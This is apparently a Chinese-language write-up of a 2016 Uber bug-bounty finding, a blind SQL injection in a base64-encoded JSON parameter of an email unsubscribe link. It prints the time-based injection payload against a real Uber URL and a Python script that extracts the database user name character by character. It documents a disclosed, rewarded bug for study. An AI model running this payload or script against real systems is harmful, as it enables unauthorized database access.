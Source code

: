 # 漏洞散记
##  Uber的sql注入
> July 26, 2016 12:29发布的一个漏洞，一个json中存在的注入，我只能说作者真的很细心

> 漏洞价值:4000$

# 漏洞详情
很巧，作者当时正在大陆旅游，然后叫了大陆的uber，然后意外的收到了一个来自Uber的广告邮件，高潮的部分就这么
发生了！作者发现这封邮件的**unsubscribe link**和他以前见过的**unsubscribe link**不一样，然后便测试出此处
存在注入

> 这儿插一下，邮件的unsubscribe link最后的parameter是json格式的base64

作者提供payload如下：

```
http://sctrack.email.uber.com.cn/track/unsubscribe.do?p=eyJ1c2VyX2lkIjogIjU3NTUgYW5kIHNsZWVwKDEyKT0xIiwgInJlY2VpdmVyIjogIm9yYW5nZUBteW1haWwifQ==
```
将后半部分的base64解密后是：

```{"user_id": "5755 and sleep(12)=1", "receiver": "orange@mymail"}```

可以看到在user_id处存在注入，使用的是延时，作者发现此处执行成功，延时12s

便写了个脚本加以利用

### Script:

```python
import json
import string
import requests
from urllib import quote
from base64 import b64encode

base = string.digits + '_-@.'
payload = {"user_id": 5755, "receiver": "blog.orange.tw"}

for l in range(0, 30):
    for i in 'i'+base:
        payload['user_id'] = "5755 and mid(user(),%d,1)='%c'#"%(l+1, i)
        new_payload = json.dumps(payload)
        new_payload = b64encode(new_payload)
        r = requests.get('http://sctrack.email.uber.com.cn/track/unsubscribe.do?p='+quote(new_payload))

        if len(r.content)>0:
            print i
            break

```
利用脚本，成功dump出**database name**和**user name**

## 结语

这个漏洞属于sql的盲目注入，而且并没有做什么过滤，所以在利用难度上并没有很高超的技巧，然而这个漏洞的发现以及其
存在形式却是值得学习的地方，尤其是的直觉，在察觉到两种退订链接不同后便感觉出漏洞的存在，只能说是漏洞猎人独有的嗅觉

### 后续

在确认漏洞时，厂商不能确认该支付多少奖励，接着作者便提出了自己的另一个漏洞[#126203](https://hackerone.com/reports/126203)，厂商对比之后，
支付了作者4000$，感慨一句，Uber真的是壕破天，可惜当时我的那个洞被算作重复提交了，哭瞎
